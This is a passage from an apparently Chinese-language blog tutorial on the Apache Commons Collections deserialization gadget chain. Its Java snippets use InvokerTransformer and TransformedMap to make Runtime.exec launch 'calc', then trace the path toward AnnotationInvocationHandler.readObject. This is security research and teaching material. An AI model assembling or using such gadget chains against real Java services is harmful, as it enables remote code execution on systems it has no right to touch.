 

<h2 id="xhdJd">0x2.2:初步查找链</h2>
```
下面我们就需要去找哪里调用了transform,需要找不同类的不同的方法如果同方法就没必要了因为没办法在网上走，
在TransformedMap类中存在一个checkSetValue方法调用了transform(图一),接着我们需要valueTransformer是InvokerTransformer类,
在构造方法中可以看到可以修改(图二)，但是存在一个问题我相信你也看到了,构造方法是protected那么就是找同类中调用构造方法或者子类父类,
在当前类中存在一个静态方法(图三)在里面实例化了TransformedMap,所以只需要执行这个静态类就可以控制valueTransformer，
但是又存在一个问题就是图一我们可以看到checkSetValue也protected，这里先使用反射模拟构造执行一下吧。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/5.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/6.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/7.png)

```java
下面我们使用反射调用试试

Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Map decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<? extends Map> aClass = decorate.getClass();
Method declaredMethod = aClass.getDeclaredMethod("checkSetValue", Object.class);
declaredMethod.setAccessible(true);
declaredMethod.invoke(decorate, r);
```

```
接着查看同类中或者子类父类中哪里调了checkSetValue，在父类AbstractInputCheckedMapDecorator中一个静态类中调用了checkSetValue,
其实你也发现了这里重载了呸重写了(重载是一个类中多个同名方法不通的参数类型数量顺序，重写是多态父类的方法子类重写让他执行新的行为)(图二)，
到这里其实有的人就有点蒙了哈，Map.Entry中存在一个setValue方法，这里的作用是从HashMap中设置的value,下面是一个例子,
既然知道了他是如何使用的那我们就去找哪里找执行for循环Map的操作并且执行了setValue，好我们先自己构造执行一下试试看下面代码。

```

```java
//Map.Entry中使用setValue执行
Object put = objectObjectHashMap.put("key", "value");
for(Map.Entry entry: objectObjectHashMap.entrySet()){
	if("key".equals(entry.getKey())){
		entry.setValue("aaaa");
		System.out.println(entry.getValue());
	}
}
//构造setValue执行
Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("key", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
for(Map.Entry entry: decorate.entrySet()){
    entry.setValue(r);
}
```
![](https://xinyisleep.github.io/img/2025/commons-collections/8.png)
![](https://xinyisleep.github.io/img/2025/commons-collections/9.png)
```
到这里我们需要先整理一下思路,我们目前推进到这里的目的是想推到readObject,所以我们优先去找readObjec里面的，根据前辈们的找的是sun.reflect.annotation.AnnotationInvocationHandler
中调用了readObject并且执行了setValue(图一)，然而呢我们执行到setValue需要经过两个条件那我们挨个看看吧，第一个看下面代码获取一个type的注解(这里是从构造方法上面看出来的)
```